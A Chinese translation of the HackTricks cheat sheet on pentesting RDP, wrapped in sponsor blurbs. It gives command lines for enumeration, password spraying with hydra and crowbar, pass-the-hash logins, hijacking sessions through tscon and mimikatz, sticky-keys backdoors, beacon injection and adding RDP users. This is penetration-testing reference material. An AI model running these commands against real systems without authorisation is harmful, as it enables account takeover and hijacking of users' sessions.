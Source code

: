 # 3389 - Pentesting RDP

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**即时可用的漏洞评估和渗透测试设置**。从任何地方运行完整的渗透测试，使用 20 多种工具和功能，从侦察到报告。我们不替代渗透测试人员 - 我们开发自定义工具、检测和利用模块，以便让他们有更多时间深入挖掘、获取 shell 并享受乐趣。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## 基本信息

由微软开发的 **远程桌面协议** (**RDP**) 旨在通过网络实现计算机之间的图形界面连接。为了建立这样的连接，用户使用 **RDP** 客户端软件，同时，远程计算机需要运行 **RDP** 服务器软件。此设置允许无缝控制和访问远程计算机的桌面环境，基本上将其界面带到用户的本地设备上。

**默认端口：** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## 枚举

### 自动化

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

它检查可用的加密和DoS漏洞（在不对服务造成DoS的情况下）并获取NTLM Windows信息（版本）。

### [暴力破解](../generic-methodologies-and-resources/brute-force.md#rdp)

**小心，您可能会锁定账户**

### **密码喷洒**

**小心，您可能会锁定账户**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### 使用已知凭据/哈希连接
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### 检查已知凭据是否适用于 RDP 服务

rdp\_check.py 来自 impacket 让你检查某些凭据是否对 RDP 服务有效：
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**即时可用的漏洞评估和渗透测试设置**。从任何地方运行完整的渗透测试，提供20多种工具和功能，从侦察到报告。我们不替代渗透测试人员 - 我们开发自定义工具、检测和利用模块，以便让他们有更多时间深入挖掘、获取shell并享受乐趣。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **攻击**

### 会话劫持

通过**SYSTEM权限**，您可以访问任何**用户打开的RDP会话**，无需知道所有者的密码。

**获取打开的会话：**
```
query user
```
**访问所选会话**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
现在您将进入所选的 RDP 会话，并且您将仅使用 Windows 工具和功能来模拟用户。

**重要**：当您访问一个活动的 RDP 会话时，您将使正在使用该会话的用户断开连接。

您可以通过进程转储获取密码，但这种方法更快，并且可以让您与用户的虚拟桌面进行交互（密码在记事本中而未保存在磁盘上，其他机器上打开的其他 RDP 会话...）

#### **Mimikatz**

您也可以使用 mimikatz 来做到这一点：
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

结合这个技术与 **stickykeys** 或 **utilman，您将能够随时访问管理CMD和任何RDP会话**

您可以使用以下链接搜索已经被这些技术后门化的RDP：[https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Process Injection

如果来自不同域的某人或具有 **更高权限的用户通过RDP登录** 到您是 **管理员** 的PC，您可以 **注入** 您的信标到他的 **RDP会话进程** 中并以他的身份行动：

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Adding User to RDP group
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## 自动工具

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** 是一个用 Powershell 创建的后渗透框架，主要旨在自动化对 Microsoft Windows 计算机的 **Shadow** 攻击。此漏洞（被微软列为一项功能）允许远程攻击者 **在未获得受害者同意的情况下查看其桌面**，甚至可以按需控制它，使用操作系统本身的本地工具。

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
* 从命令行以自动化方式控制鼠标和键盘
* 从命令行以自动化方式控制剪贴板
* 从客户端生成 SOCKS 代理，通过 RDP 将网络通信引导到目标
* 在目标上执行任意 SHELL 和 PowerShell 命令，而无需上传文件
* 即使在目标上禁用文件传输，也可以上传和下载文件到/从目标

## HackTricks 自动命令
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**即时可用的漏洞评估和渗透测试设置**。从任何地方运行完整的渗透测试，提供20多种工具和功能，从侦察到报告。我们不替代渗透测试人员 - 我们开发自定义工具、检测和利用模块，以便让他们有更多时间深入挖掘、获取shell并享受乐趣。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)或**在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR来分享黑客技巧。

</details>
{% endhint %}
